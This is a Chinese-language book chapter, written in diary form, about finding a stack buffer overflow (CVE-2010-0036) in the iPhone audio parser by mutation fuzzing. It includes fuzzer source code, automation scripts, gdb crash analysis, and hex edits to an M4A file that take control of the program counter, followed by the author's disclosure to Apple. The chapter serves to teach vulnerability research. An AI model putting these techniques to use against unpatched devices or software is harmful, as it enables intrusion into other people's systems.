

# 第八章。铃声大屠杀

### 注意

*2009 年 3 月 21 日，星期六*

*亲爱的日记*，

上周，我的一个好朋友借给我他的越狱的、第一代 iPhone。我非常兴奋。自从苹果公司宣布 iPhone 以来，我就想看看我能否在设备中找到漏洞，但直到上周我从未有机会接触到一台。

# 8.1 漏洞发现

我终于有一部 iPhone 可以玩了，我想寻找漏洞。但要从哪里开始呢？我首先列出了安装的应用程序和库，这些应用程序和库似乎最有可能存在漏洞。MobileSafari 浏览器、MobileMail 应用程序和音频库排在最前面。我决定音频库是最有希望的靶标，因为这些库执行了很多解析，并且在手机上被大量使用，所以我尝试了它们。

在搜索 iPhone 音频库以寻找漏洞时，我执行了以下步骤：

### 注意

*我使用了一台固件为 2.2.1（5H11）的第一代 iPhone 作为所有以下步骤的平台*。

+   第 1 步：研究 iPhone 的音频功能。

+   第 2 步：构建一个简单的模糊器并模糊手机。

### 注意

我使用 Cydia 在 iPhone 上安装了所有必要的工具——如 Bash、OpenSSH 和 GNU 调试器^([83])。

## 第 1 步：研究 iPhone 的音频功能

基于 iPod 的 iPhone 是一款功能强大的音频设备。手机上提供了三个框架，提供了不同级别的声音功能：Core Audio 框架^([84]), Celestial 框架^([85]), 和 Audio Toolbox 框架。此外，iPhone 运行一个名为`mediaserverd`的音频守护进程，它聚合了所有应用程序的声音输出，并管理诸如音量和静音切换等事件。

## 第 2 步：构建一个简单的模糊器并模糊手机

iPhone 的音频系统及其所有不同的框架似乎有点复杂，所以我决定先构建一个简单的模糊器来搜索明显的漏洞。我构建的模糊器执行以下操作：

1.  在 Linux 主机上：通过变异一个样本目标文件来准备测试用例。

1.  在 Linux 主机上：通过 Web 服务器提供这些测试用例。

1.  在 iPhone 上：在 MobileSafari 中打开测试用例。

1.  在 iPhone 上：监控`mediaserverd`的故障。

1.  在 iPhone 上：如果在设备中发现故障，则记录发现情况。

1.  重复这些步骤。

我创建了一个简单的、基于变异的文件模糊器，用于在 Linux 主机上准备测试用例：

示例 8-1. 我在 Linux 主机上准备测试用例所写的代码（*fuzz.c*）

```
01    #include <stdio.h>
02    #include <sys/types.h>
03    #include <sys/mman.h>
04    #include <fcntl.h>
05    #include <stdlib.h>
06    #include <unistd.h>
07
08    int
09    main (int argc, char *argv[])
10    {
11        int          fd          = 0;
12        char *       p           = NULL;
13        char *       name        = NULL;
14        unsigned int file_size   = 0;
15        unsigned int file_offset = 0;
16        unsigned int file_value  = 0;
17
18        if (argc < 2) {
19            printf ("[-] Error: not enough arguments\n");
20            return (1);
21        } else {
22            file_size   = atol (argv[1]);
23            file_offset = atol (argv[2]);
24            file_value  = atol (argv[3]);
25            name        = argv[4];
26        }
27
28        // open file
29        fd = open (name, O_RDWR);
30        if (fd < 0) {
31            perror ("open");
32            exit (1);
33        }
34
35        // mmap file
36        p = mmap (0, file_size, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
37        if ((int) p == −1) {
38            perror ("mmap");
39            close (fd);
40            exit (1);
41        }
42
43        // mutate file
44        printf ("[+] file offset: 0x%08x (value: 0x%08x)\n",
 file_offset, file_value);
45        fflush (stdout);
46        p[file_offset] = file_value;
47
48        close (fd);
49        munmap (p, file_size);
50
51        return (0);
52    }
```

示例 8-1 中的模糊器接受四个参数：样本目标文件的大小、要操作的文件偏移量、写入给定文件偏移量的 1 字节值以及目标文件的名称。在编写模糊器后，我编译了它：

```
linux$ `gcc -o fuzz fuzz.c`
```

我随后开始模糊化*高级音频编码*^([86]) (*AAC*)格式的文件，这是 iPhone 上使用的默认音频格式。我选择了标准的 iPhone 铃声，命名为*Alarm.m4r*，作为样本目标文件：

```
linux$ `cp Alarm.m4r testcase.m4r`
```

我在终端中输入以下行以获取测试用例文件的大小：

```
linux$ `du -b testcase.m4r`
415959  testcase.m4r
```

下面的命令行选项指示 fuzzer 将文件偏移量 4 处的字节替换为`0xff`（十进制 255）：

```
linux$ `./fuzz 415959 4 255 testcase.m4r`
[+] file offset: 0x00000004 (value: 0x000000ff)
```

我随后使用`xxd`的帮助验证了结果：

```
linux$ `xxd Alarm.m4r | head −1`
0000000: 0000 0020 6674 7970 4d34 4120 0000 0000  ... ftypM4A ....

linux$ `xxd testcase.m4r | head −1`
0000000: 0000 0020 ff74 7970 4d34 4120 0000 0000  ... .typM4A ....
```

输出显示，文件偏移量 4（文件偏移量从 0 开始计数）被替换为预期的值（`0xff`）。接下来，我创建了一个 bash 脚本来自动化文件变异：

示例 8-2. 我创建的用于自动化文件变异的 bash 脚本 (*go.sh*)

```
01    #!/bin/bash
02
03    # file size
04    filesize=415959
05
06    # file offset
07    off=0
08
09    # number of files
10    num=4
11
12    # fuzz value
13    val=255
14
15    # name counter
16    cnt=0
17
18    while [ $cnt -lt $num ]
19    do
20          cp ./Alarm.m4r ./file$cnt.m4a
21          ./fuzz $filesize $off $val ./file$cnt.m4a
22          let "off+=1"
23          let "cnt+=1"
24    done
```

此脚本只是示例 8-1")中展示的 fuzzer 的包装器，它自动创建了目标文件*Alarm.m4r*（见第 20 行）的四个测试用例。从文件偏移量 0（见第 7 行）开始，目标文件的前 4 个字节（见第 10 行）分别被替换为`0xff`（见第 13 行）。当执行脚本时，生成了以下输出：

```
linux$ `./go.sh`
[+] file offset: 0x00000000 (value: 0x000000ff)
[+] file offset: 0x00000001 (value: 0x000000ff)
[+] file offset: 0x00000002 (value: 0x000000ff)
[+] file offset: 0x00000003 (value: 0x000000ff)
```

我随后验证了创建的测试用例：

```
linux$ `xxd file0.m4a | head −1`
0000000: ff00 0020 6674 7970 4d34 4120 0000 0000  ... ftypM4A ....

linux$ `xxd file1.m4a | head −1`
0000000: 00ff 0020 6674 7970 4d34 4120 0000 0000  ... ftypM4A ....

linux$ `xxd file2.m4a | head −1`
0000000: 0000 ff20 6674 7970 4d34 4120 0000 0000  ... ftypM4A ....

linux$ `xxd file3.m4a | head −1`
0000000: 0000 00ff 6674 7970 4d34 4120 0000 0000  ....ftypM4A ....
```

如输出所示，fuzzer 按预期工作，并在每个测试用例文件中修改了适当的字节。我还没有提到的一个重要事实是，示例 8-2")中的脚本将闹钟铃声的文件扩展名从*.m4r*更改为*.m4a*（见第 20 行）。这是必要的，因为 MobileSafari 不支持 iPhone 铃声使用的*.m4r*文件扩展名。

我将修改后的和未修改的闹钟铃声文件复制到了我安装在 Linux 主机上的 Apache web 服务器的主目录中。我将闹钟铃声的文件扩展名从*.m4r*更改为*.m4a*，并将 MobileSafari 指向未修改铃声的 URL。

如图 8-1 所示，未修改的目标文件*Alarm.m4a*在 MobileSafari 中成功播放。然后，我将浏览器指向第一个修改后的测试用例文件的 URL，该文件名为*file0.m4a*。

图 8-2")显示，MobileSafari 可以打开修改后的文件，但不能正确解析它。


图 8-1. 使用 MobileSafari 播放未修改的*Alarm.m4a*


图 8-2. 播放修改后的测试用例文件(*file0.m4a*)

到目前为止，我取得了什么成就呢？我能够通过变异准备音频文件测试用例，启动 MobileSafari，并指导它加载测试用例。在这个阶段，我想找到一种方法，在监控 `mediaserverd` 错误的同时，自动逐个打开 MobileSafari 中的测试用例文件。为此，我在手机上创建了这个小 Bash 脚本来完成这项工作：

示例 8-3. 在监控 `mediaserverd` 错误的同时自动打开测试用例的代码 (*audiofuzzer.sh*)

```
01    #!/bin/bash
02
03     fuzzhost=192.168.99.103
04
05     echo [+] =================================
06     echo [+] Start fuzzing
07     echo [+]
08     echo -n "[+] Cleanup: "
09     killall MobileSafari
10     killall mediaserverd
11     sleep 5
12     echo
13
14     origpid=`ps -u mobile -o pid,command | grep /usr/sbin/
mediaserverd | cut -c 0-5`
15     echo [+] Original PID of /usr/sbin/mediaserverd: $origpid
16
17     currpid=$origpid
18     let cnt=0
19     let i=0
20
21     while [ $cnt -le 1000 ];
22     do
23             if [ $i -eq 10 ];
24             then
25                     echo -n "[+] Restarting mediaserverd.. "
26                     killall mediaserverd
27                     sleep 4
28                    origpid=`ps -u mobile -o pid,command | grep /usr/sbin/ →
mediaserverd | cut -c 0-5`
29                     currpid=$origpid
30                     sleep 10
31                     echo "done"
32                     echo [+] New mediaserverd PID: $origpid
33                     i=0
34             fi
35             echo
36             echo [+] =================================
37             echo [+] Current file: http://$fuzzhost/file$cnt.m4a
38             openURL http://$fuzzhost/file$cnt.m4a
39             sleep 30
40             currpid=`ps -u mobile -o pid,command | grep /usr/sbin/
mediaserverd | → cut -c 0-5`
41             echo [+] Current PID of /usr/sbin/mediaserverd: $currpid
42             if [ $currpid -ne $origpid ];
43             then
44                     echo [+] POTENTIAL BUG FOUND! File: file$cnt.m4a
45                     openURL http://$fuzzhost/BUG_FOUND_file$cnt.m4a
46                     origpid=$currpid
47                     sleep 5
48             fi
49             ((cnt++))
50             ((i++))
51             killall MobileSafari
52     done
53
54     killall MobileSafari
```

示例 8-3") 中展示的 Bash 脚本是这样工作的：

+   第 3 行显示托管测试用例的网页服务器的 IP 地址。

+   第 9 行和第 10 行重启 `mediaserverd` 并终止所有运行的 MobileSafari 实例，以创建一个干净的环境。

+   第 14 行将 `mediaserverd` 音频守护进程的进程 ID 复制到变量 `origpid`。

+   第 21 行包含为每个测试用例执行的主要循环。

+   第 23–34 行在每 10 个测试用例之后重启 `mediaserverd`。模糊测试 iPhone 可能会很繁琐，因为一些组件，包括 `mediaserverd`，容易挂起。

+   第 38 行使用 `openURL` 工具启动托管在网页服务器上的单个测试用例.^([87])

+   第 40 行将 `mediaserverd` 音频守护进程的当前进程 ID 复制到变量 `currpid`。

+   第 42 行比较保存的 `mediaserverd` 进程 ID（见第 14 行）和守护进程的当前进程 ID。当 `mediaserverd` 在处理某个测试用例时遇到故障并重新启动时，这两个进程 ID 会不同。这个发现被记录到手机的终端（见第 44 行）。脚本还会向包含文本“`BUG_FOUND`”以及导致 `mediaserverd` 崩溃的文件名的网页服务器发送 GET 请求（见第 45 行）。

+   第 51 行在每次测试用例运行后终止当前的 MobileSafari 实例。

在我实现了这个小脚本之后，我从文件偏移量 0 开始创建了 1,000 个 *Alarm.m4r* 铃声的变异版本，将它们复制到网页服务器的根目录，并在 iPhone 上启动了 *audiofuzzer.sh* 脚本。由于内存泄漏，手机时不时地崩溃。每次发生这种情况，我不得不重新启动手机，从网页服务器的访问日志中提取最后一个处理的测试用例的文件名，调整 示例 8-3") 中的第 18 行，然后继续模糊测试。模糊测试 iPhone 可能会非常痛苦……但这是值得的！除了导致手机冻结的内存泄漏之外，我还发现了一堆由于内存损坏导致的崩溃。

# 8.2 崩溃分析和利用

在模糊器处理完测试用例后，我搜索了 Web 服务器的访问日志文件中的“`BUG_FOUND`”条目。

```
linux$ `grep BUG /var/log/apache2/access.log`
192.168.99.103 .. "GET /`BUG_FOUND_file40.m4a`
 HTTP/1.1" 404 277 "-" "Mozilla/5.0 (iPhone; U; CPU iPhone OS 2_2_1 like Mac OS X;
 en-us) AppleWebKit/525.18.1 (KHTML, like Gecko) Version/3.1.1
 Mobile/5H11 Safari/525.20"
192.168.99.103 .. "GET /`BUG_FOUND_file41.m4a` HTTP/1.1"
 404 276 "-" "Mozilla/5.0 (iPhone; U; CPU iPhone OS 2_2_1 like Mac OS X; en-us)
 AppleWebKit/525.18.1 (KHTML, like Gecko) Version/3.1.1 Mobile/5H11 Safari/525.20"
192.168.99.103 .. "GET /`BUG_FOUND_file42.m4a` HTTP/1.1"
 404 277 "-" "Mozilla/5.0 (iPhone; U; CPU iPhone OS 2_2_1 like Mac OS X; en-us)
 AppleWebKit/525.18.1 (KHTML, like Gecko) Version/3.1.1 Mobile/5H11 Safari/525.20"
[..]
```

如日志文件摘录所示，`mediaserverd`在尝试播放测试用例文件 40、41 和 42 时遇到了故障。为了分析崩溃，我重新启动了手机并将 GNU 调试器（见 B.4 节）附加到`mediaserverd`：

### 注意

*iPhone，像大多数移动设备一样，使用 ARM CPU。这一点很重要，因为 ARM 汇编语言与 Intel 汇编语言大不相同*。

```
iphone# `uname -a`
Darwin localhost 9.4.1 Darwin Kernel Version 9.4.1: Mon Dec
  8 20:59:30 PST 2008; root:xnu-1228.7.37~4/RELEASE_ARM_S5L8900X
 iPhone1,1 arm M68AP Darwin

iphone# `id`
uid=0(root) gid=0(wheel)

iphone# `gdb -q`
```

在我启动 gdb 后，我使用了以下命令来检索`mediaserverd`的当前进程 ID：

```
(gdb) `shell ps -u mobile -O pid | grep mediaserverd`
   27   ??  Ss     0:01.63 /usr/sbin/mediaserverd
```

然后我将`mediaserverd`二进制文件加载到调试器中，并将其附加到进程：

```
(gdb) `exec-file /usr/sbin/mediaserverd`
Reading symbols for shared libraries ......... done

(gdb) `attach 27`
Attaching to program: `/usr/sbin/mediaserverd', process 27.
Reading symbols for shared libraries ..................................... done
0x3146baa4 in mach_msg_trap ()
```

在我继续执行`mediaserverd`之前，我使用了`follow-fork-mode`命令来指示调试器跟踪子进程而不是父进程：

```
(gdb) `set follow-fork-mode child`

(gdb) `continue`
Continuing.
```

我在手机上打开了 MobileSafari，并将其指向测试用例文件编号 40（*file40.m4a*）的 URL。调试器产生了以下结果：

```
Program received signal EXC_BAD_ACCESS, Could not access memory.
Reason: KERN_PROTECTION_FAILURE at address: 0x01302000
[Switching to process 27 thread 0xa10b]
0x314780ec in memmove ()
```

崩溃发生在`mediaserverd`尝试访问地址`0x01302000`的内存时。

```
(gdb) `x/1x 0x01302000`
0x1302000:      Cannot access memory at address 0x1302000
```

如调试器输出所示，`mediaserverd`在尝试引用未映射的内存位置时崩溃。为了进一步分析崩溃，我打印了当前的调用堆栈：

```
(gdb) `backtrace`
#0  0x314780ec in memmove ()
#1  0x3493d5e0 in MP4AudioStream::ParseHeader ()
`#2  0x00000072 in ?? ()`
Cannot access memory at address 0x72
```

这个输出很吸引人。堆栈帧#2 的地址有一个不寻常的值（`0x00000072`），这似乎表明堆栈已经损坏。我使用了以下命令来打印在`MP4AudioStream::ParseHeader()`中执行的最后一个指令（见堆栈帧#1）：

```
(gdb) `x/1i 0x3493d5e0 - 4`
0x3493d5dc <_ZN14MP4AudioStream11ParseHeaderER27AudioFileStream
Continuation+1652>:      bl      0x34997374 <dyld_stub_memcpy>
```

在`MP4AudioStream::ParseHeader()`中执行的最后一个指令是调用`memcpy()`，这肯定导致了崩溃。此时，该错误已经表现出堆缓冲区溢出漏洞的所有特征（见 A.1 节）。

我停止了调试会话并重新启动了设备。手机启动后，我再次将调试器附加到`mediaserverd`，这次我还定义了一个在`MP4AudioStream::ParseHeader()`中的`memcpy()`调用处的断点，以便评估传递给`memcpy()`的函数参数：

```
(gdb) `break *0x3493d5dc`
Breakpoint 1 at 0x3493d5dc

(gdb) `continue`
Continuing.
```

我在 MobileSafari 中打开了测试用例编号 40（*file40.m4a*），以便触发断点：

```
[Switching to process 27 thread 0x9c0b]

Breakpoint 1, 0x3493d5dc in MP4AudioStream::ParseHeader ()
```

`memcpy()`的参数通常存储在寄存器`r0`（目标缓冲区）、`r1`（源缓冲区）和`r2`（要复制的字节数）中。我向调试器请求了这些寄存器的当前值。

```
(gdb) `info registers r0 r1 r2`
r0             0x684a38 6834744
r1             0x115030 1134640
r2             0x1fd0   8144
```

我还检查了由`r1`指向的数据，以查看`memcpy()`的源数据是否受用户控制：

```
(gdb) `x/40x $r1`
0x115030:       0x00000000      0xd7e178c2      0xe5e178c2      0x80bb0000
0x115040:       0x00b41000      0x00000100      0x00000001      0x00000000
0x115050:       0x00000000      0x00000100      0x00000000      0x00000000
0x115060:       0x00000000      0x00000100      0x00000000      0x00000000
0x115070:       0x00000000      0x00000040      0x00000000      0x00000000
0x115080:       0x00000000      0x00000000      0x00000000      0x00000000
0x115090:       0x02000000      0x2d130000      0x6b617274      0x5c000000
0x1150a0:       0x64686b74      0x07000000      0xd7e178c2      0xe5e178c2
0x1150b0:       0x01000000      0x00000000      0x00b41000      0x00000000
0x1150c0:       0x00000000      0x00000000      0x00000001      0x00000100
```

然后我在测试用例文件编号 40 中搜索这些值。我发现在文件的开始处就找到了它们，以小端表示法表示：

```
[..]
00000030h: 00 00 00 00 C2 78 E1 D7 C2 78 E1 E5 00 00 BB 80 ; ....Âxá×Âxáå..»₠
00000040h: 00 10 B4 00 00 01 00 00 01 00 00 00 00 00 00 00 ; ..'.............
00000050h: 00 00 00 00 00 01 00 00 00 00 00 00 00 00 00 00 ; ................
00000060h: 00 00 00 00 00 01 00 00 00 00 00 00 00 00 00 00 ; ................
00000070h: 00 00 00 00 40 00 00 00 00 00 00 00 00 00 00 00 ; ....@...........
[..]
```

因此，我可以控制内存复制的源数据。我继续执行`mediaserverd`，并在调试器中获得了以下输出：

```
(gdb) `continue`
Continuing.

Program received signal EXC_BAD_ACCESS, Could not access memory.
Reason: KERN_PROTECTION_FAILURE at address: 0x00685000
0x314780ec in memmove ()
```

`Mediaserverd` 在尝试访问未映射的内存时再次崩溃。这似乎是因为提供给 `memcpy()` 的大小参数太大，所以函数试图在堆栈末尾之外复制音频文件数据。在此点，我停止了调试器，并使用十六进制编辑器打开了实际导致崩溃的测试用例文件 (*file40.m4a*)：

```
00000000h: 00 00 00 20 66 74 79 70 4D 34 41 20 00 00 00 00 ; ... ftypM4A ....
00000010h: 4D 34 41 20 6D 70 34 32 69 73 6F 6D 00 00 00 00 ; M4A mp42isom....
00000020h: 00 00 1C 65 6D 6F 6F 76 FF 00 00 6C 6D 76 68 64 ; ...emoovÿ..lmvhd
[..]
```

导致崩溃的操作字节（`0xff`）可以在文件偏移量 40 (`0x28`) 处找到。我查阅了 *QuickTime 文件格式规范*^([88]) 以确定该字节在文件结构中的作用。该字节被描述为 *movie header atom* 的原子大小的一部分，因此模糊器必须已经改变了该原子的尺寸值。正如我之前提到的，提供给 `memcpy()` 的大小太大，所以 `mediaserverd` 在尝试将太多数据复制到堆栈上时崩溃。为了避免崩溃，我将原子大小设置为较小的值。我将文件偏移量 40 处的操作值改回 `0x00`，并将偏移量 42 处的字节值改为 `0x02`。我将新文件命名为 *file40_2.m4a*。

这里是原始测试用例文件 40 (*file40.m4a*)：

```
00000020h: 00 00 1C 65 6D 6F 6F 76 FF 00 00 6C 6D 76 68 64 ; ...emoovÿ..lmvhd
```

这里是带有更改下划线的新测试用例文件 (*file40_2.m4a*)：

```
00000020h: 00 00 1C 65 6D 6F 6F 76 00 00 02 6C 6D 76 68 64 ; ...emoovÿ..lmvhd
```

我重新启动了设备以获得一个干净的环境，再次将调试器附加到 `mediaserverd` 上，并在 MobileSafari 中打开了新文件。

```
Program received signal EXC_BAD_ACCESS, Could not access memory.
Reason: KERN_PROTECTION_FAILURE at address: 0x00000072
[Switching to process 27 thread 0xa10b]
0x00000072 in ?? ()
```

这次程序计数器（指令指针）被操作以指向地址 `0x00000072`。然后我停止了调试会话，并启动了一个新的调试会话，同时在 `MP4AudioStream::ParseHeader()` 中的 `memcpy()` 调用处再次设置了一个断点：

```
(gdb) `break *0x3493d5dc`
Breakpoint 1 at 0x3493d5dc

(gdb) `continue`
Continuing.
```

当我在 MobileSafari 中打开修改后的测试用例文件 *file40_2.m4a* 时，在调试器中得到了以下输出：

```
[Switching to process 71 thread 0x9f07]

Breakpoint 1, 0x3493d5dc in MP4AudioStream::ParseHeader ()
```

我打印了当前的调用堆栈：

```
`(gdb) backtrace`
`#0  0x3493d5dc in MP4AudioStream::ParseHeader ()`
#1  0x3490d748 in AudioFileStreamWrapper::ParseBytes ()
#2  0x3490cfa8 in AudioFileStreamParseBytes ()
#3  0x345dad70 in PushBytesThroughParser ()
#4  0x345dbd3c in FigAudioFileStreamFormatReaderCreateFromStream ()
#5  0x345dff08 in instantiateFormatReader ()
#6  0x345e02c4 in FigFormatReaderCreateForStream ()
#7  0x345d293c in itemfig_assureBasicsReadyForInspectionInternal ()
#8  0x345d945c in itemfig_makeReadyForInspectionThread ()
#9  0x3146178c in _pthread_body ()
#10 0x00000000 in ?? ()
```

列表中的第一个堆栈帧就是我正在寻找的。我使用以下命令来显示 `MP4AudioStream::ParseHeader()` 当前堆栈帧的信息：

```
(gdb) `info frame 0`
Stack frame at 0x1301c00:
 pc = 0x3493d5dc in MP4AudioStream::ParseHeader(AudioFileStream
Continuation&); saved pc 0x3490d748
 called by frame at 0x1301c30
 Arglist at 0x1301bf8, args:
 Locals at 0x1301bf8, Saved registers:
  r4 at 0x1301bec, r5 at 0x1301bf0, r6 at 0x1301bf4, r7
 at 0x1301bf8, r8 at                                   → 0x1301be0, sl at
 0x1301be4, fp at 0x1301be8, lr at 0x1301bfc, `pc at 0x1301bfc`,
  s16 at 0x1301ba0, s17 at 0x1301ba4, s18 at 0x1301ba8, s19 at
 0x1301bac, s20 at                    → 0x1301bb0, s21 at 0x1301bb4,
 s22 at 0x1301bb8, s23 at 0x1301bbc,
  s24 at 0x1301bc0, s25 at 0x1301bc4, s26 at 0x1301bc8, s27 at
 0x1301bcc, s28 at                    → 0x1301bd0, s29 at 0x1301bd4,
 s30 at 0x1301bd8, s31 at 0x1301bdc
```

最有趣的信息是程序计数器（`pc` 寄存器）在堆栈上的存储位置。正如调试器输出所示，`pc` 在堆栈上的地址 `0x1301bfc` 被保存（见“`Saved registers`”）。

然后我继续了进程的执行：

```
(gdb) `continue`
Continuing.

Program received signal EXC_BAD_ACCESS, Could not access memory.
Reason: KERN_PROTECTION_FAILURE at address: 0x00000072
0x00000072 in ?? ()
```

在崩溃后，我查看了 `MP4AudioStream::ParseHeader()` 函数期望找到其保存的程序计数器的堆栈位置（内存地址 `0x1301bfc`）。

```
(gdb) `x/12x 0x1301bfc`
0x1301bfc:      0x00000073      0x00000000      0x04000001      0x0400002d
0x1301c0c:      0x00000000      0x73747328      0x00000063      0x00000000
0x1301c1c:      0x00000002      0x00000001      0x00000017      0x00000001
```

调试器输出显示，保存的指令指针被覆盖为值 `0x00000073`。当函数尝试返回其调用函数时，被操作的价值被分配给指令指针（`pc` 寄存器）。具体来说，由于 ARM CPU 的指令对齐（指令对齐在 16 位或 32 位边界上），值 `0x00000072` 被复制到指令指针，而不是文件值 `0x00000073`。

我的极其简单的模糊测试器确实在 iPhone 的音频库中找到了一个经典的堆栈缓冲区溢出错误。我在测试用例文件中搜索了调试器输出的字节模式，并在*file40_2.m4a*文件中的文件偏移量 500 处找到了字节序列：

```
000001f0h: 18 73 74 74 73 00 00 00 00 00 00 00 01 00 00 04 ; .stts...........
00000200h: 2D 00 00 04 00 00 00 00 28 73 74 73 63 00 00 00 ; -.......(stsc...
00000210h: 00 00 00 00 02 00 00 00 01 00 00 00 17 00 00 00 ; ................
```

我然后将上面的下划线值改为`0x44444444`，并将新文件命名为*poc.m4a*：

```
000001f0h: 18 73 74 74 44 44 44 44 00 00 00 00 01 00 00 04 ; .sttDDDD.........
00000200h: 2D 00 00 04 00 00 00 00 28 73 74 73 63 00 00 00 ; -.......(stsc...
00000210h: 00 00 00 00 02 00 00 00 01 00 00 00 17 00 00 00 ; ................
```

我再次将调试器附加到`mediaserverd`，并在 MobileSafari 中打开了新的*poc.m4a*文件，结果如下所示：

```
Program received signal EXC_BAD_ACCESS, Could not access memory.
Reason: KERN_INVALID_ADDRESS at address: 0x44444444
[Switching to process 77 thread 0xa20f]
`0x44444444 in ?? ()`

(gdb) `info registers`
r0             0x6474613f       1685348671
r1             0x393fc284       960479876
r2             0xcb0            3248
r3             0x10b            267
r4             0x6901102        110104834
r5             0x1808080        25198720
r6             0x2              2
r7             0x74747318       1953788696
r8             0xf40100         15991040
r9             0x817a00         8485376
sl             0xf40100         15991040
fp             0x80808005      −2139062267
ip             0x20044          131140
sp             0x684c00         6835200
lr             0x1f310          127760
`pc             0x44444444`       1145324612
cpsr           {0x60000010, n = 0x0, z = 0x1, c = 0x1, v = 0x0,
 q = 0x0, j = 0x0, ge = 0x0, e = 0x0, a = 0x0, i = 0x0, f = 0x0, t = 0x0,
 mode = 0x10}   {0x60000010, n = 0, z = 1, c = 1, v = 0, q = 0, j = 0, ge = 0,
 e = 0, a = 0, i = 0, f = 0, t = 0, mode = usr}

`(gdb) backtrace`
`#0  0x44444444 in ?? ()`
Cannot access memory at address 0x74747318
```

哈哈！在这个时候，我已经完全控制了程序计数器。

# 8.3 漏洞修复

### 备注

*星期二，2010 年 2 月 2 日*

我于 2009 年 10 月 4 日通知苹果公司有关该漏洞。今天他们发布了新的 iPhone OS 版本以解决该漏洞。

### 备注

*该漏洞影响 iPhone 以及 iPhone OS 3.1.3 之前的 iPod touch*。

这个错误很容易找到，所以我确信我不是唯一知道这个错误的人，但似乎只有我通知了苹果公司。更令人惊讶的是：苹果公司自己并没有发现这样一个微不足道的错误。

# 8.4 经验教训

作为一名漏洞猎人和 iPhone 用户：

+   即使是像本章中描述的那样基于愚蠢的突变模糊测试器，也可以相当有效。

+   模糊测试 iPhone 虽然很繁琐，但值得。

+   不要在您的 iPhone 上打开不受信任的（媒体）文件。

# 8.5 补遗

### 备注

*星期二，2010 年 2 月 2 日*

由于漏洞已被修复，并且有新的 iPhone OS 版本可用，我今天在我的网站上发布了一份详细的安全警告.^([89]) 该漏洞被分配了 CVE-2010-0036。图 8-3([ch08s05.html#timeline_from_the_time_i_notified "图 8-3. 从我通知苹果公司到发布安全警告的时间线"])显示了如何解决漏洞的时间线。



图 8-3. 从我通知苹果公司到发布安全警告的时间线

## 备注

^([82])

^([83])

^([84])

^([85])

^([86])

^([87])

^([88])

^([89])

* * *

^([82]) 请参阅 [`en.wikipedia.org/wiki/IOS_jailbreaking`](http://en.wikipedia.org/wiki/IOS_jailbreaking)。

^([83]) 请参阅 [`cydia.saurik.com/`](http://cydia.saurik.com/)。

^([84]) 请参阅 [`developer.apple.com/library/ios/#documentation/MusicAudio/Conceptual/CoreAudioOverview/Introduction/Introduction.html`](http://developer.apple.com/library/ios/#documentation/MusicAudio/Conceptual/CoreAudioOverview/Introduction/Introduction.html) 中的“iOS 开发者库：核心音频概述”。

^([85]) 请参阅[iOS 开发者库：音频工具箱框架参考](http://developer.apple.com/library/ios/#documentation/MusicAudio/Reference/CAAudioTooboxRef/_index.html)。

^([86]) 请参阅[高级音频编码](http://en.wikipedia.org/wiki/Advanced_Audio_Coding)。

^([87]) 请参阅[Erica Sadun 的 FTP 站点](http://ericasadun.com/ftp/EricaUtilities/)。

^([88]) QuickTime 文件格式规范可在[`developer.apple.com/mac/library/documentation/QuickTime/QTFF/QTFFPreface/qtffPreface.html`](http://developer.apple.com/mac/library/documentation/QuickTime/QTFF/QTFFPreface/qtffPreface.html)找到。

^([89]) 描述 iPhone 漏洞详细信息的我的安全公告可在[`www.trapkit.de/advisories/TKADV2010-002.txt`](http://www.trapkit.de/advisories/TKADV2010-002.txt)找到。
